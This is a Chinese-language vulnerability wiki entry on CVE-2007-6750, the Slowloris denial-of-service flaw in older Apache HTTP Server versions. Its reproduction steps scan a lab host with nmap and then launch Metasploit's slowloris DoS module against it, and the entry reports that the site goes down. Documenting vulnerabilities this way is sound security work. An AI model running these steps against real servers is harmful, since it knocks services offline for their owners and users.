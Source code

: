 （CVE-2007-6750）Apache ddos
============================

一、漏洞简介
------------

Apache
HTTP服务器1.x和2.x允许远程攻击者通过部分HTTP请求导致拒绝服务(守护进程中断)，如Slowloris所示，这与2.2.15之前版本中缺少mod\_ReqTimeout模块有关

二、漏洞影响
------------

Apache 1.x/2.x

三、复现过程
------------

nmap -sV -p80
192.168.146.175(用nmap查看Apache版本)(Apache2.2.3初步断定存在漏洞)![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2007-6750)Apacheddos/media/rId24.png)

接着访问网站查看是否正常(发现网站正常)![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2007-6750)Apacheddos/media/rId25.png)

    msfconsole(启动metasploit)

    use auxiliary/dos/http/slowloris(使用模块)

    set RHOST 192.168.146.175(设置目标IP)

    run(执行攻击)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2007-6750)Apacheddos/media/rId26.png)

再访问网站查看是否正常(发现网站瘫痪)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2007-6750)Apacheddos/media/rId27.png)

四、参考链接
------------

> https://www.jsxlo.com/cve-2007-6750/
